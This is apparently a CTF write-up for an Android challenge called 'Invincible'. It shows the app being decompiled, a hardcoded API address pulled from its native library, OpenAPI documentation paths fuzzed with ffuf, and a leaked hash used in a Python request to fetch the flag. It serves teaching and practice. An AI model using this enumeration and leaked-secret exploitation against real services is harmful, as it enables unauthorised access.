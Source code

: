 ```yaml
---
title: Bitwall - Invincible
author: Bonface
date: 2025-05-05 00:00:00 +0000
categories:
  - CTF Competitions
tags:
  - Android
  - jadx-gui
  - Genymotion
  - api
image:
  path: /assets/img/CTF_Competitions/Bitwall/bitwall.png
  alt: invincible
---
```

# Challenge Overview
---
**Invincible** is an Android CTF challenge that involves analyzing a mobile app to uncover an exposed OpenAPI specification. This API documentation reveals both the structure of requests and a sensitive hash value. Our goal is to exploit this information to craft a valid API request and retrieve the flag.

# Enumeration

## Static Analysis
We are provided with an AAB file: `invincible.aab`.

An **AAB** (Android App Bundle) is a publishing format that contains all compiled code and resources for an Android app, but unlike APKs, it **is not directly installable** on devices.

To convert the `.aab` to an installable `.apk`, we use `bundletool`:
```bash
java -jar ~/tools/bundletool.jar build-apks \
  --bundle=invincible.aab \
  --output=invincible.apks \
  --mode=universal \
  --overwrite 
```

After generating the `.apks` file, we unzip it:
```bash
unzip invincible.apks
```

This gives us `universal.apk`, which we then decompile using `apktool` (we used `jadx` in the _Secure Chat Bounty_ challenge, so trying a different tool here):
```bash
apktool d universal.apk
cd universal/
```

Let’s check whether the app communicates with any external APIs by grepping for hardcoded URLs:
```bash
grep -Ri http:// .
```

Some matches are found inside binary files, so we use `strings` to extract readable content:
```bash
strings ./lib/x86_64/libapp.so | grep http://
```

This reveals:
```
http://34.207.249.121:8000/api/v1/
```

# Exploitation

Since we have access to an API root (`http://34.207.249.121:8000/api/v1/`), we try to brute-force common OpenAPI/Swagger documentation paths using `ffuf`.

We first create a `common-swagger-paths.txt` wordlist:

```
swagger
swagger.json
swagger-ui.html
api-docs
v1/swagger.json
api/swagger.json
api/openapi.json
openapi.json
docs
api/docs
openapi
redoc
```

Then we start fuzzing:
```bash
ffuf -u http://34.207.249.121:8000/FUZZ -w common-swagger-paths.txt -mc 200
```

The output:
```http
redoc                   [Status: 200]
openapi.json            [Status: 200]
docs                    [Status: 200]
```

The most interesting endpoint is `openapi.json`, which reveals the full OpenAPI schema:
```bash
curl -s http://34.207.249.121:8000/openapi.json | jq
```

We find this juicy bit:
```json
"/api/v1/invincible_path": {
  "get": {
    "description": "I'll make sure to remove this 70a9428d8aebe403692ecc4b4148e17bad0c4859 during production",
    "parameters": [
      {
        "name": "invincible_hash",
        "in": "query",
        "required": false,
        "schema": {
          "type": "string"
        }
      }
    ]
  }
}
```

From this, we know:
- The endpoint is `GET /api/v1/invincible_path`
- It accepts a `query` parameter: `invincible_hash`
- The developer accidentally leaked the expected hash in the description!

# Final Exploit

We use the hash value provided in the OpenAPI spec and craft the following Python script:
```python
import requests

url = "http://34.207.249.121:8000/api/v1/invincible_path"
params = {"invincible_hash": "70a9428d8aebe403692ecc4b4148e17bad0c4859"}

response = requests.get(url, params=params)
print(response.text)
```

Running it:
```bash
└─$ python3 invincible.py 
{"message":" {1n53cur3_1nv1n51bl3_4p1_6b09cef20deb76d89a3e00ba0a83de30}"}
```

**Flag:** `BitCTF{1n53cur3_1nv1n51bl3_4p1_6b09cef20deb76d89a3e00ba0a83de30}`
